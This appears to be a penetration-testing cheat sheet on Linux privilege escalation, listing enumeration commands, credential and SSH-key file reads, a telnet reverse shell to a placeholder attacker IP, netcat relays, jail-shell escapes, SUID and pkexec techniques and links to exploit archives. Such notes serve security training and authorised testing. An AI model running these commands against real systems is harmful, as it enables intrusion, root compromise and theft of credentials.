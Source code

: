 ##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash

Quick Wins
==========

* OS or Kernel Exploits. Use Google and/or :code:`searchsploit` in conjuction with the OS Version (e.g. Ubuntu 14.04) and Linux Kernel version (e.g. Linux Kernel 3.2.0) to find exploits. In addition, just searching "Linux Kernel Priv Esc" may less version specific exploits.
* Check for any sudo rights your user has using :code:`sudo -l`. Also check for any sudo version vulnerabilities. See if pkexec is available.
* Enumerate cron jobs for all users and look for weak permissions on scripts, writable paths, and the use of exploitable commands within the script.
* Search for weak file permissions in general, including:
    * Writable system files (e.g. /etc/passwd, /etc/shadow, etc.)
    * SUID/SGID binaries.
    * Writable files which are getting run by the root user.
* With any SUID/SGID binaries:
    * Look for references to missing shared objects.
    * Search for strings in the executable, especially relative command paths.
    * If absolute command paths are used, check the version of Bash/Dash to see if we can set absolute function names.

Information Gathering
=====================

Automation
----------

Run any number of the following:

| linuxprivchecker.py
| upc.sh (unix-privesc-check)
| `LinEnum.sh <https://github.com/rebootuser/LinEnum>`__
| linux-exploit-suggester.sh
| https://github.com/initstring/uptux
| https://github.com/NullArray/RootHelper

https://github.com/mzet-/linux-exploit-suggester/network

Operating System
----------------

**What's the distribution type? What version?**

.. code-block:: bash

    cat /etc/issue
    cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

**What's the kernel version? Is it 64-bit?**

.. code-block:: bash

    cat /proc/version
    uname -a
    uname -mrs
    rpm -q kernel
    dmesg | grep Linux
    ls /boot | grep vmlinuz-

**What can be learnt from the environmental variables?**

.. code-block:: bash

    cat /etc/profile
    cat /etc/bashrc
    cat ~/.bash_profile
    cat ~/.bashrc
    cat ~/.bash_logout
    env
    set

**Is there a printer?**

.. code-block:: bash

    lpstat -a

Applications & Services
-----------------------

**What services are running? Which service has which user privilege?**

.. code-block:: bash

    ps aux
    ps -ef
    top
    cat /etc/services

**Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!**

.. code-block:: bash

    ps aux | grep root
    ps -ef | grep root

**What applications are installed? What version are they? Are they currently running?**

.. code-block:: bash

    ls -alh /usr/bin/
    ls -alh /sbin/
    dpkg -l
    rpm -qa
    ls -alh /var/cache/apt/archivesO
    ls -alh /var/cache/yum/

**Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?**

.. code-block:: bash

    cat /etc/syslog.conf
    cat /etc/chttp.conf
    cat /etc/lighttpd.conf
    cat /etc/cups/cupsd.conf
    cat /etc/inetd.conf
    cat /etc/apache2/apache2.conf
    cat /etc/my.conf
    cat /etc/httpd/conf/httpd.conf
    cat /opt/lampp/etc/httpd.conf
    ls -aRl /etc/ | awk '$1 ~ /^.*r.*/'

**What jobs are scheduled?**

.. code-block:: bash

    crontab -l
    ls -alh /var/spool/cron
    ls -al /etc/ | grep cron
    ls -al /etc/cron*
    cat /etc/cron*
    cat /etc/at.allow
    cat /etc/at.deny
    cat /etc/cron.allow
    cat /etc/cron.deny
    cat /etc/crontab
    cat /etc/anacrontab
    cat /var/spool/cron/crontabs/root

**Any plain text usernames and/or passwords?**

.. code-block:: bash

    grep -i user [filename]
    grep -i pass [filename]
    grep -C 5 "password" [filename]
    find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

Communications & Networking
---------------------------

**What NIC(s) does the system have? Is it connected to another network?**

.. code-block:: bash

    /sbin/ifconfig -a
    cat /etc/network/interfaces
    cat /etc/sysconfig/network

**What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?**

.. code-block:: bash

    cat /etc/resolv.conf
    cat /etc/sysconfig/network
    cat /etc/networks
    iptables -L
    hostname
    dnsdomainname

**What other users & hosts are communicating with the system?**

.. code-block:: bash

    lsof -i
    lsof -i :80
    grep 80 /etc/services
    netstat -antup
    netstat -antpx
    netstat -tulpn
    chkconfig --list
    chkconfig --list | grep 3:on
    last
    w

**Whats cached? IP and/or MAC addresses**

.. code-block:: bash

    arp -e
    route
    /sbin/route -nee

**Is packet sniffing possible? What can be seen? Listen to live traffic**

.. code-block:: bash

    tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

**Have you got a shell? Can you interact with the system?**

.. code-block:: bash

    nc -lvp 4444    # Attacker. Input (Commands)
    nc -lvp 4445    # Attacker. Ouput (Results)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445 # On the targets system. Use the attackers IP!

Note: http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

**Is port forwarding possible? Redirect and interact with traffic from another view**

Note: http://www.boutell.com/rinetd/

Note: http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch

Note: http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip

Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

.. code-block:: bash

    FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

.. code-block:: bash

    ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
    ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe

.. code-block:: bash

    mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
    mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
    mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)

**Is tunnelling possible? Send commands locally, remotely**

.. code-block:: bash

    ssh -D 127.0.0.1:9050 -N [username]@[ip]
    proxychains ifconfig

Confidential Information & Users
--------------------------------

**Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?**

.. code-block:: bash

    id
    who
    w
    last
    cat /etc/passwd | cut -d: -f1    # List of users
    grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
    awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
    cat /etc/sudoers
    sudo -l

**What sensitive files can be found?**

.. code-block:: bash

    cat /etc/passwd
    cat /etc/group
    cat /etc/shadow
    ls -alh /var/mail/

**Anything "interesting" in the home directorie(s)? If it's possible to access**

.. code-block:: bash

    ls -ahlR /root/
    ls -ahlR /home/

**Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords**

.. code-block:: bash

    cat /var/apache2/config.inc
    cat /var/lib/mysql/mysql/user.MYD
    cat /root/anaconda-ks.cfg

**What has the user being doing? Is there any password in plain text? What have they been edting?**

.. code-block:: bash

    cat ~/.bash_history
    cat ~/.nano_history
    cat ~/.atftp_history
    cat ~/.mysql_history
    cat ~/.php_history

**What user information can be found?**

.. code-block:: bash

    cat ~/.bashrc
    cat ~/.profile
    cat /var/mail/root
    cat /var/spool/mail/root

**Can private-key information be found?**

.. code-block:: bash

    cat ~/.ssh/authorized_keys
    cat ~/.ssh/identity.pub
    cat ~/.ssh/identity
    cat ~/.ssh/id_rsa.pub
    cat ~/.ssh/id_rsa
    cat ~/.ssh/id_dsa.pub
    cat ~/.ssh/id_dsa
    cat /etc/ssh/ssh_config
    cat /etc/ssh/sshd_config
    cat /etc/ssh/ssh_host_dsa_key.pub
    cat /etc/ssh/ssh_host_dsa_key
    cat /etc/ssh/ssh_host_rsa_key.pub
    cat /etc/ssh/ssh_host_rsa_key
    cat /etc/ssh/ssh_host_key.pub
    cat /etc/ssh/ssh_host_key

File Systems
------------

**Which configuration files can be written in /etc/? Able to reconfigure a service?**

.. code-block:: bash

    ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone
    ls -aRl /etc/ | awk '$1 ~ /^..w/' 2>/dev/null       # Owner
    ls -aRl /etc/ | awk '$1 ~ /^.....w/' 2>/dev/null    # Group
    ls -aRl /etc/ | awk '$1 ~ /w.$/' 2>/dev/null        # Other

    find /etc/ -readable -type f 2>/dev/null               # Anyone
    find /etc/ -readable -type f -maxdepth 1 2>/dev/null   # Anyone

**What can be found in /var/ ?**

.. code-block:: bash

    ls -alh /var/log
    ls -alh /var/mail
    ls -alh /var/spool
    ls -alh /var/spool/lpd
    ls -alh /var/lib/pgsql
    ls -alh /var/lib/mysql
    cat /var/lib/dhcp3/dhclient.leases

**Any settings/files (hidden) on website? Any settings file with database information?**

.. code-block:: bash

    ls -alhR /var/www/
    ls -alhR /srv/www/htdocs/
    ls -alhR /usr/local/www/apache22/data/
    ls -alhR /opt/lampp/htdocs/
    ls -alhR /var/www/html/

**Is there anything in the log file(s) (Could help with "Local File Includes"!)**

.. code-block:: bash

    cat /etc/httpd/logs/access_log
    cat /etc/httpd/logs/access.log
    cat /etc/httpd/logs/error_log
    cat /etc/httpd/logs/error.log
    cat /var/log/apache2/access_log
    cat /var/log/apache2/access.log
    cat /var/log/apache2/error_log
    cat /var/log/apache2/error.log
    cat /var/log/apache/access_log
    cat /var/log/apache/access.log
    cat /var/log/auth.log
    cat /var/log/chttp.log
    cat /var/log/cups/error_log
    cat /var/log/dpkg.log
    cat /var/log/faillog
    cat /var/log/httpd/access_log
    cat /var/log/httpd/access.log
    cat /var/log/httpd/error_log
    cat /var/log/httpd/error.log
    cat /var/log/lastlog
    cat /var/log/lighttpd/access.log
    cat /var/log/lighttpd/error.log
    cat /var/log/lighttpd/lighttpd.access.log
    cat /var/log/lighttpd/lighttpd.error.log
    cat /var/log/messages
    cat /var/log/secure
    cat /var/log/syslog
    cat /var/log/wtmp
    cat /var/log/xferlog
    cat /var/log/yum.log
    cat /var/run/utmp
    cat /var/webmin/miniserv.log
    cat /var/www/logs/access_log
    cat /var/www/logs/access.log
    ls -alh /var/lib/dhcp3/
    ls -alh /var/log/postgresql/
    ls -alh /var/log/proftpd/
    ls -alh /var/log/samba/

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp

Note: http://www.thegeekstuff.com/2011/08/linux-var-log-files/

**If commands are limited, you break out of the "jail" shell?**

.. code-block:: bash

    python -c 'import pty;pty.spawn("/bin/bash")'
    echo os.system('/bin/bash')
    /bin/sh -i

**How are file-systems mounted?**

.. code-block:: bash

    mount
    df -h

**Are there any unmounted file-systems?**

.. code-block:: bash

    cat /etc/fstab

**What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID**

.. code-block:: bash

    find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
    find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
    find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

    find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
    for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

    # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null

**Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm**

.. code-block:: bash

    find / -writable -type d 2>/dev/null      # world-writeable folders
    find / -perm -222 -type d 2>/dev/null     # world-writeable folders
    find / -perm -o w -type d 2>/dev/null     # world-writeable folders

    find / -perm -o x -type d 2>/dev/null     # world-executable folders

    find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

**Any "problem" files? Word-writeable, "nobody" files**

.. code-block:: bash

    find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
    find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

**What files can our user specifically write to?**

.. code-block:: bash

    groups | cut -d' ' -f3- | tr ' ' '\n' | while read user; do echo $user; find / -group $user -perm -g=w -exec ls -l {} \; 2> /dev/null; done # Find files which our user groups have write access to.
    find / -user `whoami` # Find files owned by our user.

Preparation & Finding Exploit Code
----------------------------------

**What development tools/languages are installed/supported?**

.. code-block:: bash

    find / -name perl*
    find / -name python*
    find / -name gcc*
    find / -name cc

**How can files be uploaded?**

.. code-block:: bash

    find / -name wget
    find / -name nc*
    find / -name netcat*
    find / -name tftp*
    find / -name ftp

**Finding exploit code**

http://www.exploit-db.com

http://1337day.com

http://www.securiteam.com

http://www.securityfocus.com

http://www.exploitsearch.net

http://metasploit.com/modules/

http://securityreason.com

http://seclists.org/fulldisclosure/

http://www.google.com

**Finding more information regarding the exploit**

http://www.cvedetails.com
http://packetstormsecurity.org/files/cve/[CVE]

http://cve.mitre.org/cgi-bin/cvename.cgi?name=[CVE]

http://www.vulnview.com/cve-details.php?cvename=[CVE]

**(Quick) "Common" exploits. Warning. Pre-compiled binaries files. Use at your own risk**

http://web.archive.org/web/20111118031158/

http://tarantula.by.ru/localroot/

http://www.kecepatan.66ghz.com/file/local-root-exploit-priv9/

Exploitation
============

Kernel Exploits
---------------

Use searchsploit and Google to search for kernel or OS version exploits:

.. code-block:: none

    searchsploit -t Linux Kernel Pri Esc 2.6.18
    searchsploit -t Linux Kernel Pri Esc 2.6
    searchsploit -t Linux Kernel Pri Esc 2.x

.. code-block:: none

    searchsploit -t CentOS 4.8
    searchsploit -t CentOS 4.x
    searchsploit -t CentOS 4

Root Services
-------------

Look for processes running as root:

.. code-block:: none

    ps -aux | grep root

Look for root processes that are listening on ports (especially internal ones):

.. code-block:: none

    netstat -etulp
    netstat -etulp | grep root


SUID / SGID Executables
-----------------------

Find SUID / SGID executables and investigate them further:

.. code-block:: none

    find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    find / -type f -a -perm -o+x -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null

Common escalation techniques:

* If the executable is writable, we can replace it with a malicious one.
* If the executable uses a shared object we can write to, we can replace it with a malicious one.
* If the executable depends on environment variables to refer to other executables, we can manipulate them.

Sudo Rights
-----------

Check to see if we have any rights to run commands with sudo:

.. code-block:: none

    sudo -l

pkexec
------

If pkexec is installed (usually /usr/bin/pkexec) and is SUID, and we have regular user credentials, we might be able to run commands as root:

.. code-block:: none

    pkexec --user root /bin/sh

Cron Jobs
---------

Check for any weaknesses in cron jobs:

.. code-block:: none

    cat /etc/crontab
    ls -l /etc/cron.*

Insecure PATH
-------------

Check to see if any users have modified their PATH environment variable (e.g. in their .bashrc or .profile files) that we can exploit.

Sources
=======

* http://pentestmonkey.net/tools/unix-privesc-check/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://payatu.com/guide-linux-privilege-escalation/
* http://www.0daysecurity.com/penetration-testing/enumeration.html
* http://www.microloft.co.uk/hacking/hacking3.htm
* http://jon.oberheide.org/files/stackjacking-infiltrate11.pdf
* http://pentest.cryptocity.net/files/operations/2009/post_exploitation_fall09.pdf
* http://insidetrust.blogspot.com/2011/04/quick-guide-to-linux-privilege.html
